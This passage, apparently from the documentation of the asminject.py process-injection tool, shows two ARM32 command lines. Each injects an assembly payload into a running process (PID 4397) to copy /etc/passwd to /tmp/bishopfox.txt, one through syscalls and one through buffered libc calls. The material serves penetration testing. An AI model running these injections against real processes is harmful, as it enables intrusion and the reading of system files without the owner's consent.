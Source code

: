 ```
python3 ./asminject.py 4397 copy_file_using_syscalls.s --arch arm32 --stop-method "slow" --var sourcefile "/etc/passwd" --var destfile "/tmp/bishopfox.txt"
```

## Create a copy of a file using buffered read/write libc calls

Use of this payload is identical to the x86-64 equivalent except for the `--arch arm32` option:

```
# python3 ./asminject.py 4397 copy_file_using_libc.s --arch arm32 --relative-offsets relative_offsets-libc-2.28.txt --stop-method "slow" --var sourcefile "/etc/passwd" --var destfile "/tmp/bishopfox.txt"
```
